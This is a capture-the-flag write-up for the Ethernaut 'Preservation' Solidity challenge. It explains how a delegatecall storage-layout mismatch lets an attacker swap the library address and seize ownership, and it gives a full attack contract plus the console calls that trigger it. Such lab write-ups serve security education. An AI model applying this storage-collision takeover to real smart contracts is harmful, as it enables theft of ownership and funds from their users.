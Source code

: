 # Level 16: [Preservation](https://ethernaut.openzeppelin.com/level/0x2754fA769d47ACdF1f6cDAa4B0A8Ca4eEba651eC)

## Level objectives:
Claim ownership of contract.
## Analysis (lol)
- Only the constuctor sets the owner.
- When using `delegatecall`, the storage layout/order must be the same in the original as well as the delegate contract.
- The layout is not the same here.
- Calling the delegate contract, we can see that it modifies the `timeZone1Library`'s address.
- We can abuse this by setting it to the address of a contract we control.

## Steps:
- Attack contract:
```sol
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8;

contract AttackPreservation {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    // matching the original contract's storage layout.
    
    // fake function to match the func signature
    function setTime(uint _time) public {
        owner = 0x599C5A4be2b87F0128b87Fea208DBE5AE41095e4;
    }
}
```
- Setting `timeZone1Library` to our contract's address:
```js
contract.setSecondTime("0x76e0704a9fAD5D0252e023B45b6c94BDcfD5d4A8");
```
- Triggering `delegatecall` to the first address:
```js
contract.setFirstTime("1674807193"); // put some value convertible to an actual number
```

- The contract thinks it's calling a function in the library contract whereas it's actually calling the `setTime` defined in our malicious contract.
- Verify attack using: `await contract.owner();`.